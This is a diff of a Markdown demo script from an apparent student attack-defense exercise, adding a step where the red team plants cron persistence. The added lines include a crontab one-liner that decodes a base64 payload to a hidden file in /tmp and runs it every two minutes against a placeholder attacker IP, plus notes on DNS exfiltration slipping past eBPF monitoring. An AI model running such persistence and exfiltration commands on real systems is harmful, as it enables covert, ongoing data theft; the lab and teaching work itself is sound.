

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/DEMO_FLOW.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/docs/DEMO_FLOW.md
+++ b/docs/DEMO_FLOW.md
@@ -1,4 +1,4 @@
-# Attack-Defense Demo Flow — 6 回合攻防演練腳本
+# Attack-Defense Demo Flow — 7 回合攻防演練腳本
 
 > 這份是 Demo 當天的執行腳本，照著跑就好。
 > 每回合大概 2-3 分鐘，全程大約 20-25 分鐘。
@@ -346,13 +346,29 @@ Agent 會自動：
 [+] Saved: ./loot/bash_history
 ```
 
+### T3 — 植入 Crontab 持久化（為回合 7 埋伏筆）
+
+透過 C2 設定 crontab，讓 exfil agent 每 2 分鐘自動重新部署並執行：
+
+```
+C2> bash red_team/deploy_agent.sh <ATTACKER_IP>
+```
+
+將產生的 deploy 指令改成 crontab 格式貼入 C2：
+
+```
+C2> (crontab -l 2>/dev/null; echo "*/2 * * * * echo '<base64>' | base64 -d > /tmp/.cache_update.py && python3 /tmp/.cache_update.py <ATTACKER_IP>") | crontab -
+```
+
+> 這步不用特別展示，快速帶過即可。重點是讓回合 7 有持久化的前提。
+
 ### 講解要點
 
 - 紅方取得控制後**立即**外傳資料 — 這才是真實攻擊的流程
 - DNS exfiltration 把資料編碼成 subdomain（`data.fileid.x.exfil.local`），看起來像普通 DNS query
 - 這類 covert channel 不觸發 eBPF 監控的任何 syscall pattern（沒有 memfd、沒有 reverse shell）
-- 即使後續藍方開啟 eBPF v1/v2，資料**已經外傳完畢**，防禦來不及
-- 要偵測 DNS exfiltration 需要另外的機制：DNS query pattern 分析、subdomain 長度異常偵測等
+- 同時植入 crontab 持久化，確保即使 C2 斷線，資料外傳也會持續
+- MITRE ATT&CK: **T1053.003** (Scheduled Task/Job: Cron)
 
 ---
 
````
Also changed, not shown: other parts of docs/DEMO_FLOW.md (+62 -8 lines).
